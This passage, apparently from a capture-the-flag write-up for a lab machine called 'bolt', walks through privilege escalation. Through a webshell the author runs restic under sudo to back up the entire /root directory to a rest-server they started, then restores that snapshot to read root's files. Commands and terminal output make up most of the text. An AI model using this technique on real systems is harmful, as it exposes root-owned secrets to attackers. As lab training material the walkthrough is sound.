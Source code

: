 We run the server with the debug option.

    :::text
    bolt@bolt:/tmp/ioio2$ ./rest-server-0.9.7-linux-amd64 --path /tmp/ioio2/srv/  --debug
    rest-server 0.9.7 compiled with go1.10 on linux/amd64
    Data directory: /tmp/ioio2/srv/
    Authentication disabled
    Private repositories disabled
    Starting server on :8000

With our `www-data` webshell we put the repository password in a file and
backup the whole `/root/` directory.

    :::text
    $ echo lol > /tmp/l
    $ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ -p /tmp/l /root/
    scan [/root]
    [0:00] 10 directories, 14 files, 28.066 KiB
    scanned 10 directories, 14 files in 0:00
    [0:00] 100.00%  28.066 KiB / 28.066 KiB  24 / 24 items  0 errors  ETA 0:00

    duration: 0:00
    snapshot 485d9809 saved

Back to our bolt SSH shell we can check the snapshots in our
repository (yes I did some test with the bolt user. That's how I discover that I
was prompted for password).

    :::text
    bolt@bolt:/tmp/ioio2$ restic -r ./srv/ snapshots
    enter password for repository:
    password is correct
    ID        Date                 Host        Tags        Directory
    ----------------------------------------------------------------------
    91587cbd  2019-12-05 15:20:31  bolt                    /home/bolt
    bf190199  2019-12-05 15:21:59  bolt                    /home/bolt
    c7702698  2019-12-05 15:23:55  bolt                    /home/bolt
    485d9809  2019-12-05 15:25:06  bolt                    /root
    ----------------------------------------------------------------------
    4 snapshots

We restore the last snapshot in a new directory. It generate some errors that we
don't really care about.

    :::text
    bolt@bolt:/tmp/ioio2$ mkdir rest
    bolt@bolt:/tmp/ioio2$ restic -r ./srv/ restore 485d9809 --target  ./rest
    enter password for repository:
    password is correct
    restoring <Snapshot 485d9809 of [/root] at 2019-12-05 15:25:06.665521427 +0000 UTC by root@bolt> to ./rest
    ignoring error for /root/.bash_history: Lchown: lchown /tmp/ioio2/rest/root/.bash_history: operation not permitted
    ignoring error for /root/.bashrc: Lchown: lchown /tmp/ioio2/rest/root/.bashrc: operation not permitted
    ignoring error for /root/.cache/motd.legal-displayed: Lchown: lchown /tmp/ioio2/rest/root/.cache/motd.legal-displayed: operation not permitted
    ignoring error for /root/.cache: Lchown: lchown /tmp/ioio2/rest/root/.cache: operation not permitted
    ignoring error for /root/.config/composer/keys.dev.pub: Lchown: lchown /tmp/ioio2/rest/root/.config/composer/keys.dev.pub: operation not permitted
    ignoring error for /root/.config/composer/keys.tags.pub: Lchown: lchown /tmp/ioio2/rest/root/.config/composer/keys.tags.pub: operation not permitted
    ignoring error for /root/.config/composer: Lchown: lchown /tmp/ioio2/rest/root/.config/composer: operation not permitted
    ignoring error for /root/.config: Lchown: lchown /tmp/ioio2/rest/root/.config: operation not permitted